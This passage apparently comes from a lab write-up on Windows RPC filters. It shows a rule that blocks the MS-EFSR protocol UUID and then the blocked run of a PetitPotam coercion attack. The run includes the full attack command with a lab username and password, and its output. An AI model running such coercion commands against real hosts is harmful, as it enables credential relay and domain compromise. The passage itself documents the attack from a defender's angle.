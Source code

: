 For example, consider the following RPC filter rule that blocks all inbound requests with the protocol UUID `c681d488-d850-11d0-8c52-00c04fd90f7e`:

![](./assets/img/sincon/1101b332ea15c35b3c9521939a3ded7d.png)

The protocol UUID: `c681d488-d850-11d0-8c52-00c04fd90f7e` corresponds to the [`MS-EFSR` protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/403c7ae0-1a3a-4e96-8efc-54e79a2cc451) which contains a set of RPC methods (`EfsRpcOpenFileRaw`, etc.) that can be used to coerce authentication via `EFS` - this is meant to prevent `PetitPotam`.

Attempting to perform the attack with `KNIGHT-HALL` will result in the following error:

```
proxychains /opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' TABULARIUM.jess.kingdom KNIGHT-HALL.jess.kingdom
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
/opt/tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:KNIGHT-HALL.jess.kingdom[\PIPE\lsarpc]
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.3.10.11:445  ...  OK
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
Something went wrong, check error status => SMB SessionError: code: 0xc00000b0 - STATUS_PIPE_DISCONNECTED - The specified named pipe is in the disconnected state.
```
